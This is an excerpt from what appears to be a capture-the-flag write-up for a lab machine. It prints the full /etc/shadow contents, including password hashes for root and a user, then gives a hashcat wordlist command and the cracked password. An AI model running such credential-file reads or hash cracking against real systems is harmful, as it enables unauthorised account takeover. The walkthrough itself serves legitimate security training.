 ```
cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::
```

We can try to crack this hash using hashcat using the following command

```
hashcat -m 1800 -a 0 hash /usr/share/wordlists/rockyou.txt
```
After a few moments the hash would be cracked. drwilliams password ended up being **qwe123!@#**

![Cracked hash](/assets/img/Hospital/Hospital_06.png)

